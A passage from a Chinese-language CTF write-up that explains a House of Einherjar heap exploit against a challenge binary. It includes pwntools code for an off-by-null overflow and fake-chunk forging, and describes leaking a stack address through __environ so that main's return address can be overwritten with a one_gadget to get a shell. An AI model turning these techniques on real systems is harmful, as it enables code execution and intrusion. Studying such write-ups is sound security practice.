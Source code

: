 ```python
payload='a'*0x20+p64(0)+p64(0x101)+p64(fake_chunk)+p64(fake_chunk)#fd和bk指向自己，绕过检查
edit(1,payload)

free(1)
payload='a'*0x40+p64(offset)#off by null
add(0x48,payload)

free(2)# 触发house of einherjar

payload='a'*0x20+p64(0)+p64(0x101)+p64(malloc_hook+0x10+88)+p64(malloc_hook+0x10+88)
#不知道为什么如果不修改不能malloc，可能fd或者bk有错?
edit(3,payload)

```

在这之后，fake chunk就被释放合并到了unsorted bin中，下一次malloc会从中获取内存。

![hoe](./tinypad/hoe.jpg)

然后就可以尝试get shell了，但这里有有些麻烦，由于开启了FULL RELRO，因此无法改写GOT表项，并且程序没有使用stdio，对FILE_IO的利用也不行，不过在libc中有一个全局变量**__environ**，储存着该程序环境变量的地址，而环境变量是储存在**栈**上的，所以可以泄露栈地址，所以可以控制rip。

**在__environ中的第一个位置上有一个栈地址，而这个栈地址距离main_ret（主程序返回操作）的距离是一个固定的偏移：8*30(*__environ-240)**，所以这里就可以找到main_ret的地址，之后我们修改它执行one_gadget即可getshell。


```python
from pwn import*
context(log_level='debug',os='linux',arch='amd64')
elf=ELF("./pwn2")
libc=ELF("./libc-2.23.so")
p=process("./pwn2")

def debug():
	gdb.attach(p)
	pause()

def add(size,content):
	p.recvuntil("(CMD)>>> ")
	p.sendline('a')
	p.recvuntil("(SIZE)>>> ")
	p.sendline(str(size))
	p.recvuntil("(CONTENT)>>> ")
	p.sendline(str(content))

def free(idx):
	p.recvuntil("(CMD)>>> ")
	p.sendline('d')
	p.recvuntil("(INDEX)>>> ")
	p.sendline(str(idx))

def edit(idx,content):
	p.recvuntil("(CMD)>>> ")
	p.sendline('e')
	p.recvuntil("(INDEX)>>> ")
	p.sendline(str(idx))
	p.recvuntil("(CONTENT)>>> ")
	p.sendline(str(content))
	p.recvuntil("(Y/n)>>> ")
	p.sendline("y")
	#return data

```